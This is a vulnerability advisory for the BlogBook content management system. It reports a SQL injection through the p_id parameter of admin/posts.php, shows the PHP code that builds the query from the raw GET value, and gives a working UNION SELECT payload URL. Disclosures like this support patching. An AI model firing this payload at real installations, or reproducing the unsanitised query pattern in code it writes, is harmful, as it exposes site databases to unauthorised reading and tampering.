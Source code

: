 # BlogBook /admin/posts.php edit_post p_id Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php edit_post p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists within a core post management interface of the BlogBook application, likely controlled by a source GET parameter (e.g., when source is edit_post or a default view). When a p_id GET parameter is provided, its value (stored as $edit_post_id) is directly concatenated into an SQL query (SELECT * FROM posts WHERE post_id={$edit_post_id}) without proper sanitization. This allows an attacker, potentially needing specific privileges to access this administrative functionality, to inject and execute arbitrary SQL commands, leading to unauthorized data access or manipulation.

## Vulnerability Point

`blogbook-main/admin/includes/edit_post.php:8`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
if(isset($_GET['p_id'])){
    $edit_post_id= $_GET['p_id'];
}


$query="SELECT * FROM posts WHERE post_id={$edit_post_id}";
                            $select_posts_by_id=mysqli_query($connection,$query);   
                            while($row=mysqli_fetch_assoc($select_posts_by_id)){
                               global $cat_id;
                                 $post_id=$row['post_id'];
                                 $post_author=$row['post_author'];
                                 $post_title=$row['post_title'];
                                 $post_category_id=$row['post_category_id'];
                                 $post_image=$row['post_image'];
                                 $post_tags=$row['post_tags'];
                                 $post_content=$row['post_content'];
                                 $post_comment_count=$row['post_comment_count'];
                                 $post_date=$row['post_date'];
                                 $post_status=$row['post_status'];
                            }
```
## Payload

`http://localhost/admin/posts.php?source=edit_post&p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`

![edit_post sqli](./assets/edit_post_sqli.png)
